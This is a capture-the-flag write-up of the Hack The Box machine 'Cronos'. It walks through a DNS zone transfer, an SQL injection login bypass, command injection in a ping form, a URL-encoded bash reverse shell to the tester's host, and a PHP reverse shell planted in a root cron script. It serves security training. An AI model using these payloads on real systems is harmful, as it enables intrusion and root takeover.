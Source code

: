 ```yaml
---
title: "Cronos"
date: 18-06-2025
categories: [Linux, Medium]
tags: [SQL Injection, SQLMap, Cronjob, DNS, RCE]
image: https://labs.hackthebox.com/storage/avatars/f77c75f363afe0d0a6eeccf6a8d8c252.png
---
```


Cronos is a medium difficulty Linux machine. This box has only three TCP ports open; SSH, HTTP and DNS. DNS is configured in such a way that we are able to extract the domain name of this machine which resolves to `cronos.htb`. With the domain name we can perform a DNS zone transfer which leaks an admin subdomain. This admin page has a login form which is vulnerable to an SQL injection which allows us to bypass the login check. Once inside the admin page we have a command injection vulnerability which comes from a ping command. This page seems to be used to test the connection of different devices, and does not have any security checks. We are able to get a reverse shell from which we find a vulnerable cron job that we can abuse to get a reverse shell as the root user. 

![cron_info_card](assets/images/cronos/Cronos.png)
## Enumeration
As always we can start off with an nmap scan to reveal which TCP ports are open on thsi box.
#### Nmap Scan
```
# Nmap 7.94SVN scan initiated Wed Jun 18 15:54:24 2025 as: nmap -Pn -n -oN nmap/allports --min-rate 5000 -p- 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up (0.021s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

# Nmap done at Wed Jun 18 15:54:35 2025 -- 1 IP address (1 host up) scanned in 11.15 seconds
```

There are only three TCP ports open, a quick look around the website reveals that it is just the default Apache welcome page. DNS being open suggests that there could be some missconfigurations. The main objective would be to perform a DNS zone transfer to leak the different subdomains the machine has available but to do so we need the hostname. To get the hostname we can use the nslookup tool.

```
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```
#### DNS Zone Transfer
We can see from the output that cronos.htb is the domain name. To perform the DNS zone transfer we can use the following command

```
dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.18.28-1~deb12u2-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 19 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Wed Jun 18 20:54:17 CEST 2025
;; XFR size: 7 records (messages 1, bytes 203)

```
## Finding the Hidden Subdomains
We can see from the output that we gain access to the admin.cronos.htb subdomain which we can add to our hosts file to be able to access the webpage. 
![alt text](assets/images/cronos/image.png)

#### Discovering the SQL injection to Bypass the Login 
Trying common login credentials such as admin:admin does not work so I try to test for an SQL injection which works and we are able to bypass the login form. We can input the following data into the fields to do so:

```
UserName: a' OR 1=1 -- -
Password: a
```

Once inside the welcome page we see a very simple net tool

![alt text](assets/images/cronos/image2.png)

## Finding a Potential RCE vector
The ping command is a very common to a command injection vulnerability. I captured the request to work with it in burpsuite as that makes things easier:

```
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://admin.cronos.htb/welcome.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Origin: http://admin.cronos.htb
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=dsdgr0k8vbv3tmem16na0fkqu7
Upgrade-Insecure-Requests: 1
Priority: u=0, i

command=ping+-c+1&host=8.8.8.8
```

We can try a simple and easy to see check by appending a sleep command to the end of the host parameter. The reason to append this at the end of the hosts parameter is because the ping command works as follows `ping host`. If we append our command at the end of the host we can execute any code after executing the ping command. We can try with a `command=ping+-c+1&host=8.8.8.8 ; sleep 2` to check if the reply takes 2 seconds longer, which it does. After confirming the command injection we can try with a bash reverse shell. I had some issues with character encoding but I managed to fix it by encoding the entire command into URL form.

I used the following reverse shell: `bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'` and sent the following payload:

```
command=ping+-c+1&host=8.8.8.8 ; %62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%34%2f%39%30%30%31%20%30%3e%26%31%27
```
## Privilege Escalation
Before sending it I set up a listener on the same port on my machine and sure enough we get a connection back as www-data. This user can directly read the user.txt flag inside the home directory of the user `noulis`. From here you could try running linpeas and other priv esc methods but the name of the machine is Cronos. We can safely assume that it is a cron tab exploit.
Checking the crontab file inside /etc/crontab file we see the following:

```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
The last command is really interesting as it executes every minute as the root user. It is executing a file inside the /var/www/ directory which is the home directory of the www-data user we already own. The artisan file is also writable by us and contains a php script. I simply added the following php reverse shell at the top of the file, which will send me a reverse shell as the root user every minute.

```
cat ~/laravel/artisan
#!/usr/bin/env php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/9002 0>&1'");
/*
```

![alt text](assets/images/cronos/image3.png)